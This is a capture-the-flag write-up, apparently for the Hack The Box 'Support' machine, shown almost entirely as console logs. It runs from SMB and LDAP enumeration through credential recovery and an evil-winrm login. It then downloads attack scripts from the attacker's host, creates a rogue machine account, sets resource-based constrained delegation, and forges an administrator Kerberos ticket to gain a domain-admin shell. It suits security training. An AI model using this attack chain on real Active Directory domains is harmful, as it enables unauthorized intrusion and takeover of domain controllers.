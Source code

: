 ```console
└──╼ [★]$ sudo nmap -p- -A -sC -T4 -Pn 10.129.53.165
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 18:23 BST
Nmap scan report for 10.129.53.165
Host is up (0.014s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-09-07 17:28:21Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49708/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016 (85%)
OS CPE: cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-09-07T17:29:16
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   23.09 ms 10.10.14.1
2   22.61 ms 10.129.53.165

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 401.59 seconds
```

```console
└──╼ [★]$ smbclient -N -L //10.129.53.172/

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	support-tools   Disk      support staff tools
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

```console
└──╼ [★]$ smbclient -N //10.129.53.172/support-tools
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 18:01:06 2022
  ..                                  D        0  Sat May 28 12:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 12:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 12:19:55 2022
  putty.exe                           A  1273576  Sat May 28 12:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 12:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 18:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 12:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 12:19:43 2022

		4026367 blocks of size 4096. 968598 blocks available
smb: \> get UserInfo.exe.zip
getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zip (7970.4 KiloBytes/sec) (average 7970.4 KiloBytes/sec)
smb: \> 
```

At first I used Ghidra to check it out but I was only able to get a password string and what I suspected was a username. Neither worked for me. However using dnspy worked.

Cyberchef password

![image](https://user-images.githubusercontent.com/105310322/188973978-b4ffece0-4f72-4376-951f-b269626694c3.png)

ldap gives too much information back but in this particular section we get some interesting data in the info field ```Ironside47pleasure40Watchful```

```console
└──╼ [★]$ ldapsearch -x -H ldap://10.129.53.172 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=support,DC=htb"
# extended LDIF
#
# LDAPv3
# base <CN=Users,DC=support,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
dSCorePropagationData: 20220528111201.0Z
dSCorePropagationData: 16010101000000.0Z
```

```└──╼ [★]$ evil-winrm -u support -p Ironside47pleasure40Watchful -i 10.129.53.172

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\support\Documents> 
```
```console
*Evil-WinRM* PS C:\Users\support\Desktop> cat user.txt
e5e4df8ff7b70b6d1b41b9893c2ec44c
```

```console
*Evil-WinRM* PS C:\Users\support\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

```https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html```

```console
*Evil-WinRM* PS C:\temp> curl http://10.10.14.35:8000/Powermad/Powermad.ps1 -o Powermad.ps1
*Evil-WinRM* PS C:\temp> import-module ./Powermad.ps1
*Evil-WinRM* PS C:\temp> curl http://10.10.14.35:8000/powerview.ps1 -o powerview.ps1
*Evil-WinRM* PS C:\temp> import-module ./powerview.ps1
```

```*Evil-WinRM* PS C:\temp> New-MachineAccount -MachineAccount rogue -Password $(ConvertTo-SecureString 'pass' -AsPlainText -Force) -Verbose
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = rogue$
Verbose: [+] Distinguished Name = CN=rogue,CN=Computers,DC=support,DC=htb
[+] Machine account rogue added
*Evil-WinRM* PS C:\temp> Get-DomainComputer rogue -Properties objectsid

objectsid
---------
S-1-5-21-1677581083-3380853377-188903654-5603


*Evil-WinRM* PS C:\temp> 
```
```console
*Evil-WinRM* PS C:\temp> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5603)"
*Evil-WinRM* PS C:\temp> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\temp> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\temp> Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```


```
└──╼ [★]$ impacket-getST support.htb/rogue:pass -dc-ip 10.129.53.172 -impersonate administrator -spn www/dc.support.htb
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

```
└──╼ [★]$ export KRB5CCNAME=administrator.ccache
─[us-dedivip-1]─[10.10.14.35]─[htb-0xrogue@pwnbox-base]─[~/my_data/HTB/Machines]
└──╼ [★]$ impacket-wmiexec support.htb/administrator@dc.support.htb -no-pass -k
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
support\administrator
```

```
C:\Users\Administrator\Desktop>type root.txt
1a586ea32eb4efd6d2fd9f310f94e31c

C:\Users\Administrator\Desktop>
```
